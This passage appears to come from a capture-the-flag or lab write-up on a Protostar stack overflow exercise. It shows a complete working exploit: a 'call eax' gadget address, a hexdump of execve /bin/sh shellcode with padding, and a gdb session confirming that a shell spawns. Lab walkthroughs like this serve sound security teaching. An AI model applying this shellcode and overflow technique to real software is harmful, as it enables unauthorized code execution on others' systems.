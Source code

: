 76 bytes can be sent by using this exploit so far, we are now able to write anything to **eip** register. The first bytes aka. **shellcode** should be overwritten onto **eax** register.  

We need an address of **call eax** instruction in our binary to jump to our shellcode by writing its address onto **eip** register.

```x86asm
$ objdump -d 5 -M intel | grep "call"
...TRIM...
 8048386:	ff d0                	call   eax
...TRIM...
 804840f:	ff d0                	call   eax
```

Let's use the address **8048386** in our exploit.
```x86asm
$ echo -ne "\x86\x83\x04\x08" >> exploit.bin
```

Final exploit.

```x86asm
c@ubuntu:~/Desktop/protostar$ hexdump -v exploit.bin 
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141 8386 0804
```

Let's check if this exploit works properly or not by debugging.

```nasm
gdb-peda$ b * 0x0804842d
gdb-peda$ b * 0x08048386

gdb-peda$ r < exploit.bin

gdb-peda$ x/20wx $eax
0xffffd0e0:	0x6850c031	0x68732f6e	0x622f2f68	0x31e38969
0xffffd0f0:	0xb0d231c9	0x4180cd0b	0x41414141	0x41414141
0xffffd100:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd110:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd120:	0x41414141	0x41414141	0x41414141	0x08048386

gdb-peda$ i r eip
eip            0x8048386	0x8048386 <deregister_tm_clones+38>

gdb-peda$ c
Continuing.
process 6220 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x804842d
```
